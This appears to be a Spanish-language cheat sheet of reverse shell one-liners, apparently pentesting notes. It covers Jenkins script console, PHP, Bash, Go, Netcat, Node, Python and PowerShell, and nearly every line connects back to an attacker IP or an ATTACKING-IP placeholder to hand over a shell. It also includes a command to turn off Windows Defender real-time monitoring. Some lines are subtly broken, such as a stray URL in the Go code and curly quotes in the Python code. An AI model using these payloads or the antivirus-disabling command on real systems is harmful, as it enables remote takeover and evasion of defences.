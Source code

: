 ### Java (jenkins)
conseguir shell inversa desde el script console

    r = Runtime.getRuntime()
    p = r.exec (["/bin/bash","-c","exec 5<>/dev/tcp/10.18.1.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()



### PHP

    <?php $sock = fsockopen("10.10.17.146","4444"); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>

#### o

    php -r '$sock=fsockopen("10.14.55.255",666);exec("/bin/sh -i <&3 >&3 2>&3");'

### BASH

    0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

#### o
    exec 5<>/dev/tcp/ATTACKING-IP/80
    cat <&5 | while read line; do $line 2>&5 >&5; done  

#### o

    bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

### Golang

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go

### Netcat

    nc -e /bin/sh ATTACKING-IP 80

###  Node


    require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');




### PYHON
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);


### POWERSHELL

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


Si el antivirus no nos deja crear la shell:
    
    Set-MpPreference -DisableRealtimeMonitoring $true


con esta página podemos crear todo tipo de reverseshells:
    
    https://www.revshells.com/
